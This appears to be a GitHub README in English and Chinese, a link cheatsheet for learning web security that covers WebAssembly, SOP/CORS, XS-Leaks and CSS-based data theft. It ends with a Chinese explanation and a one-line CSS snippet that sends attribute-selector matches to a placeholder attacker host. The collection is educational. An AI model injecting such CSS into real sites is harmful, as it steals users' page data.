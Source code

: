 # Security Learning    
I would collect links for useful data as a cheatsheet. The data includes English one and Chinese one. Enjoy it ☕️

## How to take a good practice
* [安全研究者的自我修养](https://mp.weixin.qq.com/s?__biz=MzU0MzgzNTU0Mw==&mid=2247483913&idx=1&sn=2a0558592e072389e348dc8f7c6223d1&chksm=fb0416f1cc739fe7aed6f45167dc5a555974aaeb250cdcdc3bdd973ae151b8534a7c2cef6c43&scene=21#wechat_redirect)  
* [So you want to be a web security researcher?](https://portswigger.net/blog/so-you-want-to-be-a-web-security-researcher)  
* [如何阅读一份源代码？](https://www.codedump.info/post/20190324-how-to-read-code/)  

## WASM
* [WebAssembly Concepts
](https://developer.mozilla.org/en-US/docs/WebAssembly/Concepts)  
* [Using the WebAssembly JavaScript API
](https://developer.mozilla.org/en-US/docs/WebAssembly/Using_the_JavaScript_API)  
* [Introduction to WebAssembly](https://sensepost.com/blog/2018/introduction-to-webassembly/)  
* [玩轉 WebAssembly && 逆向](https://blog.1pwnch.com/web/reverse/2019/05/22/Say-Hello-to-WASM/#more)

## Frontend
* [你真的会使用XMLHttpRequest吗?](https://segmentfault.com/a/1190000004322487)  
* [SOP與CORS安全詳解](https://jiwo.org/ken/detail.php?id=2393)  

## XS-Leaks
* [Exposing Intranets with reliable Browser-based Port scanning](https://portswigger.net/blog/exposing-intranets-with-reliable-browser-based-port-scanning)  
* [从35c3CTF的filemanager题目中学到的一个小tips](https://blog.wonderkun.cc/2018/12/30/%E4%BB%8E35c3CTF%E7%9A%84filemanager%E9%A2%98%E7%9B%AE%E4%B8%AD%E5%AD%A6%E5%88%B0%E7%9A%84%E4%B8%80%E4%B8%AA%E5%B0%8Ftips/#more)  
* [github-xsleaks](https://github.com/xsleaks/xsleaks/wiki)  
* [secret note keeper -- Facebook CTF 2019](https://sectt.github.io/writeups/FBCTF19/secret_note_keeper/README)  
* [gimme-a-bit-exploring-attacks-in-the-post-xss-world](https://speakerdeck.com/lmt_swallow/gimme-a-bit-exploring-attacks-in-the-post-xss-world)  

雖然和XSS一樣是跨域偷信息的技巧，但因為受限於SOP所以不是直接回傳信息，而是利用盲注: **配合爆破觀察瀏覽器的行為**(猜中和沒猜中頁面會有何差異)! 至於如何跨域觀察瀏覽器的行為呢? 特定信息是可以跨域傳送的，像是iframe count就不受SOP的限制，樓上35c3的filemanager就是利用onload數量和xss-auditor來跨域爆破出flag的!  

## Steal data with CSS
* [使用CSS窃取数据：攻击与防守](http://www.fwheart.club/2019/04/08/[%E8%AF%91]%E4%BD%BF%E7%94%A8CSS%E7%AA%83%E5%8F%96%E6%95%B0%E6%8D%AE%EF%BC%9A%E6%94%BB%E5%87%BB%E4%B8%8E%E9%98%B2%E5%AE%88/)  

在頁面中注入css，利用attribute selector，若match則傳送特定query (`{background:url("https://attack.host/aa");}`) 到自己的server以竊取資訊!

